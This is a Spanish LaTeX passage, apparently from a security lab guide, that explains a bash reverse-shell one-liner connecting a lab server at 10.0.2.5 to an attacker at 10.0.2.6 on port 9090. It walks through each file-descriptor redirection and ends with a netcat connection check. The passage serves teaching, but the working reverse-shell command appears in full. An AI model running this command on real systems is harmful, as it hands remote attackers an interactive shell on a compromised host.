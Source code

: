 \begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

Este comando normalmente es ejecutado por un atacante en un servidor comprometido.
Es un tanto engorroso, en los siguientes parráfos darémos una explicación detallada de su funcionamiento. 


\begin{itemize}

\item \texttt{"/bin/bash -i"}: El parámetro \texttt{i} es quiere decir que la shell será una shell interactiva, esto significa que nos permitirá interactuar para enviar y recibir información usando la shell.

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: Esto hace que el (\texttt{stdout}) (standard output) de la shell sea redirigido hacia la conexión TCP establecida con la IP del atacante \texttt{10.0.2.6} en el puerto \texttt{stdout} es el  \texttt{9090}. En sistemas \unix, el número del descriptor de archivo (file descriptor) del \texttt{stdout} es el \texttt{1}

\item \texttt{"0<\&1"}: El descriptor de archivo (file descriptor) cuyo número es \texttt{0} representa el standard input (\texttt{stdin}). Esta opción le indica al sistema que use el standard output como standard input.
Dado que el \texttt{stdout} está siendo redirigido hacia una conexión TCP, esta opción le indica al programa shell que obtendrá su entrada usando la misma conexión.

\item \texttt{"2>\&1"}: El descriptor de archivo (file descriptor) cuyo número es cuyo número es \texttt{2} representa el standard error \texttt{stderr}.
Esto hace que cualquier error que pueda ocurrir sea redirigido al \texttt{stdout} que es la conexión TCP.

\end{itemize}

Para concluir, el comando  \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"}  ejecuta una shell \texttt{bash} en la máquina del servidor cuyo input viene de una conexión TCP y su output sale por la misma conexión TCP.
En nuestro experimento al ejecutar la shell \texttt{bash} en el servidor \texttt{10.0.2.5} este establecerá una conexión reversa hacia  \texttt{10.0.2.6}. Esto puede ser verificado por medio del mensaje \texttt{"Connection from 10.0.2.5 ..."} mostrado en \texttt{netcat}.





